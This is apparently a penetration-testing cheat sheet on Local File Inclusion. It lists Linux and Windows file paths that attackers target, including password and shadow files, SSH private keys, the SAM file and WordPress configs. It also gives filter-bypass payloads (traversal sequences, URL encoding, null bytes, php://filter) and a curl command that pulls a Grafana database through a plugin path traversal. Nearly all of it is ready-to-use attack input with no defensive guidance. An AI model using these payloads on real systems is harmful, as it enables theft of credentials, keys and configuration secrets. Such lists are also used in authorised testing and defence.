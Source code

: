 ```yaml
---
legal-banner: true
---
```


### **Introduction**

Local File Inclusion (LFI) is a type of vulnerability in web applications that allows an attacker to read and potentially execute files on the server that hosts the web application. This occurs when an application includes files without properly sanitizing user input, allowing paths to unintended files to be injected. LFI can lead to information disclosure and remote code execution.

### **Common LFI Paths on Linux Systems**

1.  Accesses the system user account and password file.  
    `/etc/passwd`
2.  Reads the root user email files.  
    `/var/mail/root`
3.  Retrieves SSH private keys from a user home directory.  
    `/home/user/.ssh/id_rsa`
4.  Reads the Apache web server access log.  
    `/var/log/apache2/access.log`
5.  Accesses WordPress configuration files typically located in web server directories    
    `/var/www/html/wp-config.php`
6.  Reads the shadow file containing encrypted passwords and related information for user accounts.  
    `/etc/shadow`
7. `curl --path-as-is http://[DOMAIN_NAME]/public/plugins/alertGroups/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db`

### **Common LFI Paths on Windows Systems**

1. Retrieves the Windows initialization file, which contains settings.
	`\windows\win.ini`
3.  Retrieves SSH private keys in the user directory.  
    `C:/Users/viewer/.ssh/id_rsa`
4. IIS WEb config file
				 `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`
	`C:\inetpub\wwwroot\web.config`

6.  Accesses the system hosts file, which contains network information.  
    `C:/Windows/System32/drivers/etc/hosts`
3.  Reads IIS web server log files, which can be exploited for further attacks.  
    `C:/inetpub/logs/LogFiles/W3SVC1/u_ex<date>.log`
4.  Accesses the boot configuration data with startup settings.  
    `C:/boot.ini`
5.  Reads the autoexec batch file used in older versions of Windows for global environment settings.  
    `C:/autoexec.bat`
6.  Accesses the hosts file to view or manipulate network settings.  
    `C:/windows/system32/drivers/etc/hosts`
7.  Retrieves the Security Accounts Manager file storing user credentials.  
    `C:/windows/repair/SAM`
8.  Accesses the WordPress configuration file on XAMPP installations.  
    `../../../../../../../../xampp/htdocs/blog/wp-config.php`
9.  Retrieves SSH private keys from a user profile.  
    `../../../../../../../../Users/Viewer/.ssh/id_rsa`

### **LFI Filter Bypassing Techniques**

Techniques for bypassing LFI filters using path traversal, filter bypasses, and encoding:

1.  Basic LFI: Displays the system password file.  
    `/index.php?language=/etc/passwd`
2.  Path Traversal LFI: Uses directory traversal to access critical system files.  
    `/index.php?language=../../../../etc/passwd`
3.  Name Prefix LFI: Similar to basic path traversal with different path depth.  
    `/index.php?language=/../../../etc/passwd`
4.  Approved Path LFI: Bypasses restrictions by starting with an allowed path.  
    `/index.php?language=./languages/../../../../etc/passwd`
5.  Basic Path Traversal Bypass: Uses obscure sequences to bypass simple traversal filters.  
    `/index.php?language=....//....//....//....//etc/passwd`
6.  URL Encoding Filter Bypass: Encodes traversal sequences to evade detection.  
    `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`
7.  Path Truncation: Uses deep recursion to force path truncation.  
    `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[REPEATED ~2048 times]`
8.  Null Byte Obsolescence: Appends a null byte to terminate the string prematurely (not effective on modern systems).  
    `/index.php?language=../../../../etc/passwd%00`
9.  Base64 PHP Reading: Encodes PHP files into base64 for safer retrieval.  
    `/index.php?language=php://filter/read=convert.base64-encode/resource=config`